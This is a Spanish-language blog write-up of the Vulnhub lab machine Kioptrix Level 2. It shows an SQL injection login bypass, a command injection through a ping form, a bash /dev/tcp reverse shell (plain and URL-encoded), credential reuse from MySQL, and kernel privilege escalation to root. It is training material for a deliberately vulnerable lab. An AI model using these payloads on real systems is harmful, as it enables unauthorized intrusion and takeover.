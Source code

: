 ```yaml
---
layout: single
title: Kioptrix Level 2 (Vulnhub) - WriteUp (by blu3ming)
excerpt: "Writeup de la máquina Kioptrix Nivel 2 de la plataforma Vunlhub. Nota: Puede incluir fallos y rabbit holes, los cuales se especifican, con el objetivo de que el lector no cometa los mismos errores que yo. Se recomienda leer el artículo completo antes de seguirlo al pie de la letra."
date: 2021-06-1
classes: wide
header:
  teaser: /assets/images/kioptrix-2/portada.jpeg
  teaser_home_page: true
categories:
  - Writeup
tags:
  - Vulnhub
  - Writeup
  - Guia
---
```


[https://www.vulnhub.com/entry/kioptrix-level-11-2,23/](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

+ Verificamos con una traza ICMP el sistema operativo que corre en el servidor. Por le valor del TTL, se deduce que se trata de un sistema Linux.

	![1]
	
+ Un escaneo de nmap revela los servicios y puertos que corren en el servidor. Hay un servicio HTTP, SSH, HTTPS, MySQL, entre otros
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 192.168.0.12 -oG allPorts``
	
	![2]

+ Dado que hay servicios web, empleamos whatweb para escanear en busca de servidores, CMS, y elementos de relevancia en la página. En el caso del HTTP, se observa un campo de contraseña, por lo que se deduce que hay un panel de logueo. En el caso del HTTPS, no es posible detectar las tecnologías que corre el servidor en este puerto.

    ![3]
    
+ Si realizamos un escaneo con scripts básicos de enumeración en nmap, enfocado a los puertos encontrados anteriormente, veremos las versiones y software que corren en el servidor. Sin embargo, a diferencia de la máquina anterior de Kioptrix, ahora estos no cuentan con vulnerabilidades conocidas que nos permitan acceder al sistema o escalar privilegios.

    ![4]
	
+ El siguiente paso es revisar el servicio web con ayuda de un navegador. Vemos que efectivamente, hay un panel de logueo como index. Se intenta vulnerar con una inyección SQL, la cual es:
	
	``‘ or 1=1-- -``
	
	En este caso, no importa la contraseña, ya que la inyección permitirá acceder al primer usuario registrado, el cual normalmente es el usuario administrador.
	
	![5]
    
+ Vemos que la inyección funciona correctamente, ya que accedemos al sistema como usuario administrador. Vemos una página que dice poder realizar un comando ping a una red que se le especifique. En este punto, se deduce que por detrás, el servicio web está ejecutando un comando directamente en el servidor, por lo que es el camino perfecto para introducir una reverse shell que se conecte a nosotros.

	Si observamos el código fuente, veremos que debería haber un campo para introducir la IP a la cual realizar el ping, junto con un botón para enviar el dato al servidor. Sin embargo, estos campos no se muestran al renderizar el sitio web, dado que hay un error en el código fuente, faltando una comilla en el **td align=’center**.

    ![6]
    
+ Como no podemos modificar la página web, lo que podemos hacer es enviar la petición por medio de POST con los datos que solicita el sitio. Para ello, empleamos Burpsuite para interceptar la petición, modificarla, y poder enviarla. Para hacer un primer intento, se manda una IP, a lo cual se observa que el servidor responde con una respuesta común a un comando **ping**.
    
    ![7]
    
	Para ejecutar dos comandos en una sola línea, estos se separan por medio de un punto y coma (;), así que le concatenamos un comando whoami para corroborar que se ejecute. Como podemos observar en la respuesta, el comando se ejecuta correctamente.

    ![8]
    
	Ahora solo nos queda concatenar una reverse shell al comando. Para ello, se deben codificar los espacios como “+” y los & como su codificación %26. Además de escapar el símbolo “-”.

	```
		bash -i >& /dev/tcp/192.168.0.6/443 0>&1	Pasa a ser:
		bash+\-i+>%26+/dev/tcp/192.168.0.6/443+0>%261
	```

    ![9]
    
+ De esta manera, obtenemos una shell dentro del sistema. Ahora solo nos queda escalar privilegios, por lo que comenzamos a enumerar. Vemos a dos usuarios, llamados **john** y **harold**.
    
    ![10]
	
+ Recordemos que en el sistema corre un servicio MySQL, por lo que intentamos conectarnos para tratar de encontrar contraseñas de usuario que podamos usar. Por desgracia, la única base de datos a la que podemos acceder, está vacía.
    
    ![11]
	
+ Recordemos que esta base de datos es usada por el sistema web que vimos en un inicio para permitir el acceso mediante el logueo, por lo que procedemos a revisar el código fuente (ya completo) de dicho servicio. Vemos que la página se conecta al servicio MySQL por medio del usuario **john** y la contraseña **hiroshima**.
    
    ![12]
	
+ Intentamos usar esa contraseña para loguearnos en el servidor como el usuario john (por si hubiera reutilización de contraseñas), por desgracia, esta no funcionó. Nos conectamos entonces al servicio MySQL con este usuario y contraseñas, y vemos que ahora podemos acceder a más bases de datos que antes nos eran imposibles.
    
    ![13]
	
+ Si observamos dentro de la base de datos **webapp**, veremos una tabla llamada **users**, la cual contiene dos usuarios: **admin** y **john**, junto con sus contraseñas.
    
    ![14]
	
+ Intentamos loguearnos de nuevo al servidor Linux con estas credenciales, por desgracia, no funcionaron. No teniendo más información que enumerar (se buscaron además por permisos SUID y tareas cron), procedemos a emplear un enumerador automatizado como **LinENUM**. Para copiarlo al sistema, necesitamos una carpeta donde tengamos permisos de escritura. En este caso, fue /etc/shm.
    
    ![15]

+ Lo primero que nos devuelve el script, es la versión que corre en el servidor de Linux, la cual es la **2.6.9-55**.
    
    ![16]
	
+ Si buscamos vulnerabilidades para esta versión en específico, veremos que hay un exploit que permite el escalado de privilegios en el sistema, por lo que buscamos este mismo script en la herramienta searchsploit.
    
    ![17]

    ![18]
	
+ Esta herramienta nos devuelve varios exploits para el escalado de privilegios. Intentamos el primero, el cual tiene el número de identificación **1397**. Por desgracia, la misma herramienta nos indica que la versión del kernel encontrada no es vulnerable al exploit.
    
    ![19]
	
+ Procedemos a explotar el segundo script encontrado, el cual vulnera el parámetro **id_append_data()** para escalar privilegios.
    
    ![20]
	
+ Si copiamos el código a la máquina víctima, y compilamos con ayuda de gcc, al momento de ejecutarlo este devuelve de forma automática una bash como el usuario root. En este punto, hemos comprometido correctamente la máquina.
    
    ![21]
    
+ **Nota:** Queda como aprendizaje el enumerar aparte la versión del kernel y del sistema operativo que corren en la máquina. Esto se hace con ayuda de **uname -a** y **lsb_release -a**.
    
[1]:/assets/images/kioptrix-2/1.png
[2]:/assets/images/kioptrix-2/2.png
[3]:/assets/images/kioptrix-2/3.png
[4]:/assets/images/kioptrix-2/4.png
[5]:/assets/images/kioptrix-2/5.png
[6]:/assets/images/kioptrix-2/6.png
[7]:/assets/images/kioptrix-2/7.png
[8]:/assets/images/kioptrix-2/8.png
[9]:/assets/images/kioptrix-2/9.png
[10]:/assets/images/kioptrix-2/10.png
[11]:/assets/images/kioptrix-2/11.png
[12]:/assets/images/kioptrix-2/12.png
[13]:/assets/images/kioptrix-2/13.png
[14]:/assets/images/kioptrix-2/14.png
[15]:/assets/images/kioptrix-2/15.png
[16]:/assets/images/kioptrix-2/16.png
[17]:/assets/images/kioptrix-2/17.png
[18]:/assets/images/kioptrix-2/18.png
[19]:/assets/images/kioptrix-2/19.png
[20]:/assets/images/kioptrix-2/20.png
[21]:/assets/images/kioptrix-2/21.png